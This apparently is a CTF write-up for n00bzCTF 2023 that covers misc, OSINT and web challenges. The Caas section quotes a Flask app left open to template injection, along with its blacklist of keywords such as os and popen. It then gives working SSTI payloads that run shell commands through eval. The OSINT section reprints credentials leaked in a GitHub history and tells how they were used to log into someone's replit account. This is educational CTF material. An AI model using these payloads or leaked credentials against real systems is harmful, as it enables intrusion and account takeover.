



## Misc
### Amazing Song Lyrics
>This is a wierd png file. I hope you can make some sense out of it!
> - Note: Wrap the flag in n00bz{} and flag is all lowercase Author: NoobMaster
-----------------


The image is a pictogram for certain sign languages, but what language? I am no expert in sign language so I begin with random google searching.
A brief search for American Sign Language alphabet gives me hand shapes that look similar:


Decoding the message based on the hand shapes shown in this chart we get the following:
```
AMERIC
ANSIGN
LANGUA
GEDECO
DED
```
rephrased: `American sign language decoded`. 

`n00bz{americansignlanguagedecoded}`

### Google Form 1
>Binary Flag Checkers are old, so how about some Google Forms Flag Checker? [Link](https://forms.gle/bMDsajnZusN4XvNa6) Author: NoobMaster
----------------------------------------
Visiting the site we are met with a Google form:



Random guesses yield no results. However when we check source code, we can search for the ctf flag format `n00bz` using find. Within the source code we discover the flag:
`n00bz{1n5p3ct_3l3m3n7_ftw!}`

### My Chemical Romance
>My friend loves Chemistry very much specially the elements. Once I asked him the wifi password he gave me some numbers like `186808155710` and told me that the number are in group of two like `1008` -> `10 and 08/8`. Can you help to gather the wifi password? (Note: It forms a complete word, so you might have to leave out something).
>
>Flag format: n00bz{the_password_in_lower_case} Author: noob_abhinav
--------------------

Based on the description, this password is likely linked to periodic table elements. We are also told that the password represents a real word, so the element letters might not exactly translate to the answer.

From `186808155710` we can separate into elements:
`18 68 08 15 57 10`
Using periodic table, element letters are as follows:
`ar er o p la ne`
indeed `areroplane` doesn't work, however this looks similar to the word `aeroplane`. Trying this as the flag works.
`n00bz{aeroplane}`

## OSINT
### Mission Moon
>A mission, had planned to land on the moon. Can you find where it planned to land on the moon and the name of the lander and rover? Flag is latitude longitude upto one decimal place.
>
> - Note: Flag format - `n00bz{Lander_Rover_latitude_longitude} for eg - n00bz{Examplelander_Examplerover_12.3_45.6}`. Also note that flag is **case sensitive!**
> - Note: Due to a quite big range of answers, to narrow down your search, use the latitude and longitude provided from this site: `blog.jatan.space`
----------------------------


This presented image appears to be a 3D rendering of a moon landing plan. The first easy check to be done is a reverse image search in google, and see what articles are discussing this event. 
Very quickly I see an [article that uses the image](https://www.newscientist.com/article/2215704-indias-vikram-moon-lander-appears-to-have-crashed-on-the-moon/) discussing a failed landing for India's moon mission titled Chandrayaan 2. The lander for this mission appears to be called Vikram, and the rover called Pragyan. This info is part of the flag, but we still need to find the exact coordinates of the planned landing. 
With a mission name in mind, I visited the blog.jatan.space site mentioned, and searched for `Chandrayaan 2`. On [this page](https://blog.jatan.space/p/chandrayaan-2-landing-site-in-the-southern-highlands?utm_source=%2Fsearch%2Fvikram%2520chandrayaan-2&utm_medium=reader2) I learned the coordinates planned for the landing: 70.9S, 22.8E. 

Now we can construct and submit the flag as `n00bz{Vikram_Pragyan_70.9_22.8}`.

### Try to hack me
>My friend `brayannoob` gave me a ctf challenge and told me `Try to hack me`.
------------------------
A google search on brayannoob did not yield any interesting results, so I decided to switch search engines. Upon using Bing, a [github account](https://github.com/brayannoob) was among the first results, very interesting. The repositories within this github we see a n00bzCTF-2022 writeup. With relevance on our side, this is clearly related to the challenge. Exploring the newest repository, BrayanResearch, I uncovered user credentials from an older edit of the README.md file: 
```
<!-- ACCOUNT CREDENTIALS -->|
<!-- USERNAME - @brayanduarte.noob -->|
<!-- PASSWORD - Brayann00b@2023 -->
# THANK YOU :love:
```
Other edits also give light to potential usernames:
```
<!-- username : @brayan24 -->
```
and in the current readme:
```
<!-- username : brayan234 -->
```
We have potential usernames and a password, but which service these are for? It is not so clear.

This github repo supplies a demo, providing a link to replit.com. After searching for a little bit, we come across [this user.](https://replit.com/@brayanduartenoo). Using the provided password, I was able to log in and "hack" this account! However, after searching for quite some time, I was unable to find the flag. Reviewing the CTF discord channel, there is an announcement that breaching this account was unintended for the challenge. I suppose this little adventure may serve to emphasize how easy it might be to accidentally leak credentials on github or other services!

From the discord message we know the password login is irrelevant, time to think on the hints provided in the prompt again. Looking at the `Try to hack me` part, it makes me think of the popular web service TryHackMe. After looking through usernames we stumble upon a certain username from our list: [brayan234](https://tryhackme.com/p/brayan234). Looking at this account, it appears we didn't need to log in at all! The flag is presented right in the user info section.
`n00bz{y0u_p4ss3d_th3_ch4ll3ng3_c0ngr4tul4t10ns_7c48179d2b7547938409152641cf8e}`

## Web
### Club_N00b
>Can you get in the club? Author: 0xBlue
>
>[http://challs.n00bzunit3d.xyz:8080/](http://challs.n00bzunit3d.xyz:8080/)
-------------
Following the link:



Only "radical" hackers are allowed, and we are not. Upon checking status, we see the button is not post/cookie data related, but instead redirects to an interesting url:
```
http://challs.n00bzunit3d.xyz:8080/check?secret_phrase=nope
```
We are not on the member list. But perhaps if we change the secret_phrase?
After a couple guesses, we successfully get in with `secret_phrase=radical`.



`n00bz{see_you_in_the_club_acting_real_nice}`

### Secret Group
>To get the flag, you must be a member of the secret group! Author: NoobMaster
>
>[http://challs.n00bzunit3d.xyz:31401/](http://challs.n00bzunit3d.xyz:31401/)
----------------
Visiting the url, we see the following in plain text:
```
Not an agent of the **n00bz-4dm1n** secure browser!
```
My first thought is that it is asking for a change to the http header User-Agent. Doing so using curl:
```sh
curl -H "User-Agent: n00bz-4dm1n" http://challs.n00bzunit3d.xyz:31401/                                                   
<p>Does not Accept <b>fl4g</b></p>
```
It looks to be another edit to http headers:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" http://challs.n00bzunit3d.xyz:31401/
<p>Connection not <b>s3cur3</b></p>
```
Again keeping with the trend, I add another header line for connection:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" http://challs.n00bzunit3d.xyz:31401/
<p>Not refered by <b>s3cr3t.n00bz-4dm1n.xyz</b></p>
```
Time to add referer tag:
```sh
curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" -H "Referer: s3cr3t.n00bz-4dm1n.xyz" http://challs.n00bzunit3d.xyz:31401/ 
<b>Give-Flag</b> is not <b>7ru3</b>
```
Give-Flag is not really a common http header, but based on what has been going on, it's the first thing we should try.
```sh
$ curl -H "User-Agent: n00bz-4dm1n" -H "Accept: fl4g" -H "Connection: s3cur3" -H "Referer: s3cr3t.n00bz-4dm1n.xyz" -H "Give-Flag: 7ru3" http://challs.n00bzunit3d.xyz:31401/
n00bz{y0u_4r3_n0w_4_v4l1d_m3mb3r_0f_th3_s3cr3t_gr0up!}
```
Finally we get the flag.
`n00bz{y0u_4r3_n0w_4_v4l1d_m3mb3r_0f_th3_s3cr3t_gr0up!}`


### Caas
>Curl as a Service is old, welcome to Certificate as a Service! Note: flag is in `flag.txt` Author: NoobMaster

I was not able to solve this on my own, but thanks to [onsra03](https://github.com/onsra03/WU-n00bz-CTF-2023/blob/main/README.md#caas) for the fantastic writeup post-CTF.

-------------------------------------
#### Source code
```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, render_template_string, redirect
import subprocess
import urllib

app = Flask(__name__)

def blacklist(inp):
    blacklist = ['mro','url','join','attr','dict','()','init','import','os','system','lipsum','current_app','globals','subclasses','|','getitem','popen','read','ls','flag.txt','cycler','[]','0','1','2','3','4','5','6','7','8','9','=','+',':','update','config','self','class','%','#']
    for b in blacklist:
        if b in inp:
            return "Blacklisted word!"
    if len(inp) <= 70:
        return inp
    if len(inp) > 70:
        return "Input too long!"

@app.route('/')
def main():
    return redirect('/generate')

@app.route('/generate',methods=['GET','POST'])
def generate_certificate():
    if request.method == 'GET':
        return render_template('generate_certificate.html')
    elif request.method == 'POST':
        name = blacklist(request.values['name'])
        teamname = request.values['team_name']
        return render_template_string(f'<p>Haha! No certificate for {name}</p>')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=52130)
```

Reviewing the source code, we can get an idea on what kind of exploit is involved just by looking at the type of strings blacklisted. These are common python functions, suggesting a python code injection. Exploring where our input is used, we have this line:
```python
render_template_string(f'<p>Haha! No certificate for {name}</p>')
```
A very quick google search suggests this might be SSTI, which is reasonable to believe based on the blacklist. We must utilize SSTI to display the contents of `flag.txt`. Among the commonly used SSTI functions present within the blacklist, we even see `flag.txt` is among them. 

#### Bypassing blacklist
It is clear that this blacklist must be bypassed. One possible approach is to use quotations to break string sequences. Onsra03 proposes `{{namespace['__ini''t__']['__global''s__']['o''s']['pop''en']('l\s')['rea''d'](+)}}`. However, with this we quickly approach the 70 char limit.

From the source code it is worth pointing out that only the parameter `name` is checked for blacklisted characters. If we can supply blacklisted characters in `team_name`-- or perhaps an unused parameter--then call `team_name` again within `name`, we should be able to pass the blacklisted characters to execute.

#### Building payload

Using global variable `g`, we can generate a much smaller payload from `namespace[__ini''t__]`. Secondly, we can utilize `request.form` to reference a different supplied parameter containing banned strings. At this point, our payload is small enough that referencing `team_name` is still within the length requirements. However, we could make the name parameter even smaller by referencing some single letter parameter such as `a`:
```
name={{g.pop['__global''s__'].__builtins__.eval(request.form.team_name)}}&team_name=__import__('os').popen('cat flag.txt').read()
```
Supplying this as the post request body:
```bash
curl -X POST http://challs.n00bzunit3d.xyz:52130/generate -d "name={{g.pop['__global''s__'].__builtins__.eval(request.form.team_name)}}&team_name=__import__('os').popen('cat flag.txt').read()"
<p>Haha! No certificate for n00bz{5571_57r1k3s_4g41n_7a1b3f4e5d}</p>
```
#### Alternative payload
Another interesting approach does not use `g.pop` but instead utilizes Flask's `get_flashed_messages` function:
```
name={{get_flashed_messages['__built''ins__'].eval(request.values['a'])}}&a=__import__('os').popen('cat flag.txt').read()&team_name=b
```
Note that in this situation referencing `team_name` in request.values will exceed the input length limit, so we utilize a single letter parameter  `a` instead. The values for `team_name` doesn't matter anymore, so it's just set to b.

